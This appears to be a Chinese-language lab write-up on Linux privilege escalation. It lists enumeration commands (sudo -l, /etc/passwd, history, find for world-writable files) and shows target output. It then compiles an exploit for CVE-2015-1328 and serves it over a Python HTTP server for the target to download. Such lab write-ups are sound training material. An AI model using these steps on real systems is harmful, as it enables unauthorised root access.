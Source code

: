 ## task3

1. `hostname` 命令將返回目標機器的主機名。   
2. `unname -a` 打印系統信息，為我們提供有關係統使用的內核的更多詳細信息。這在搜索可能導致權限提升的任何潛在內核漏洞時非常有用。   

3. `/proc/version`可能會為您提供有關內核版本和其他數據的信息                       
4. `/etc/issue` 該文件通常包含有關操作系統的一些信息，但可以輕鬆定製或更改               
5. `ps`                 
6. `env` 命令將顯示環境變量。            
7. `sudo -l` 命令可用於列出您的用戶可以使用運行的所有命令sudo。              
8. `id` 命令將提供用戶權限級別和組成員身份的一般概述。          
9. /etc/passwd     
10. history 命令可以讓我們對目標系統有所了解，並且雖然很少，但已經存儲了密碼或用戶名等信息     
11. ip route 命令來確認，以查看存在哪些網絡路由。
12. netstat
13. `find`
```
find . -name flag1.txt: 在當前目錄中找到名為“flag1.txt”的文件
find /home -name flag1.txt: 在 /home 目錄中找到文件名“flag1.txt”
find / -type d -name config: 在“/”下找到名為config的目錄
find / -type f -perm 0777：查找具有777權限的文件（所有用戶可讀、可寫和可執行的文件）
find / -perm a=x: 查找可執行文件
find /home -user frank: 在“/home”下查找用戶“frank”的所有文件
find / -mtime 10: 查找最近 10 天內修改過的文件
find / -atime 10: 查找過去 10 天內訪問過的文件
find / -cmin -60: 查找在過去一小時（60 分鐘）內更改的文件
find / -amin -60: 查找最近一小時（60 分鐘）內的文件訪問
find / -size 50M: 查找大小為 50 MB 的文件
```
```
$ hostname
wade7363
$ uname -a
Linux wade7363 3.13.0-24-generic #46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
$ cat /proc/version
Linux version 3.13.0-24-generic (buildd@panlong) (gcc version 4.8.2 (Ubuntu 4.8.2-19ubuntu1) ) #46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014
$ cat /etc/issue
Ubuntu 14.04 LTS \n \l

$ python -version
Unknown option: -e
usage: python [option] ... [-c cmd | -m mod | file | -] [arg] ...
Try `python -h' for more information.
$ python --version
Python 2.7.6

```
## task5 權限提升：內核利用
CVE：2015-1328
```
┌──(root💀kali)-[/home/kali/Downloads]
└─# gcc 37292.c -o 37292

┌──(root💀kali)-[/home/kali/Downloads]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.77.114 - - [27/Jan/2022 07:27:36] "GET /37292 HTTP/1.1" 200 -

```
